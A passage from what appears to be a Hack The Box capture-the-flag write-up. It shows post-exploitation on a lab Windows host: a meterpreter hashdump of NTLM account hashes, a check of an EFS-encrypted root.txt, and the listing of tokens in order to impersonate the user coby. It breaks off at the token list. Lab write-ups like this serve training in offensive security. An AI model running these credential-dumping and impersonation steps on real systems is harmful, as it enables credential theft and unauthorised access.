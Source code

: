 ![](/assets/images/htb-writeup-re/msf.png)


Got a stable shell now, let's dump the hashes first:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:caf97bbc4c410103485a3cf950496493:::
cam:1002:aad3b435b51404eeaad3b435b51404ee:1916525df2db99ef56a75152807da93d:::
coby:1000:aad3b435b51404eeaad3b435b51404ee:fa88e03e41fdf7b707979c50d57c06cf:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
john:1003:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
luke:1001:aad3b435b51404eeaad3b435b51404ee:3670611a3c1a68757854520547ab5f24:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:275fb2a3ea8b2433976482b69b94497b:::
```

I can't read `root.txt` because it's encrypted for Coby:

```
C:\Users\Administrator\Desktop>cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    RE\Administrator [Administrator(Administrator@RE)]
    Certificate thumbprint: E088 5900 BE20 19BE 6224 E5DE 3D97 E3B4 FD91 C95D

    coby(coby@RE)
    Certificate thumbprint: 415E E454 C45D 576D 59C9 A0C3 9F87 C010 5A82 87E0

  No recovery certificate found.

  Key Information:
    Algorithm: AES
    Key Length: 256
    Key Entropy: 256
```

I'll do it the easy and just impersonate Coby since I have SYSTEM access.

```
meterpreter > load incognito
[-] The 'incognito' extension has already been loaded.
meterpreter > list_tokens -u coby

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
IIS APPPOOL\re
IIS APPPOOL\REblog
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
RE\cam
RE\coby
RE\luke
Window Manager\DWM-1

Impersonation Tokens Available
```